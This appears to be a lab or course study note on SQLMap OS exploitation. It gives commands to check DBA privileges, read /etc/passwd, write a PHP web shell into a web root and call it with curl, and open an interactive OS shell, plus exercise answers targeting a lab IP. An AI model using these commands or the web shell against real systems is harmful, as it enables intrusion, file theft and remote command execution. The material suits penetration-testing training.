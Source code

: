 # 🎡 OS Exploitation

SQLMap can attempt to give us direct command execution on the remote host if we had the proper privileges

We must have the following privileges: `LOAD DATA` and `INSERT`, to be able to load the content of a file to a table and then reading that table.

```sql
LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE passwd;
```

### DBA Privileges

To check whether we have DBA privileges with SQLMap, we can use the `--is-dba`

```shell-session
sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba
```

If we have `current user is DBA: True` we may have the privilege to read local files.

### Reading Local Files

`--file-read`

```shell-session
sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
```

It will generate an output file that we can cat later on

### Writing Local Files

This is very restricted in modern DMBSes, since we can utilize this to write a Web Shell on the remote server,

To write files to the remote server we can use `--file-write` and `--file-dest` options

```shell-session
echo '<?php system($_GET["cmd"]); ?>' > shell.php
sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
curl http://www.example.com/shell.php?cmd=ls+-la
```

### OS Command Execution

we can use the `--os-shell` option

```shell-session
sqlmap -u "http://www.example.com/?id=1" --os-shell
```

If this fails we can try another injection like the `Error-based SQL Injection`, which we can specify with `--technique=E`

```shell-session
sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E
```

_**Try to use SQLMap to read the file "/var/www/html/flag.txt".**_

```
sqlmap http://94.237.59.63:39959/?id=1 --file-read "/var/www/html/flag.txt" --dump --batch
```

_**Use SQLMap to get an interactive OS shell on the remote host and try to find another flag within the host.**_

```
sqlmap http://94.237.59.63:39959/?id=1 --os-shell
```
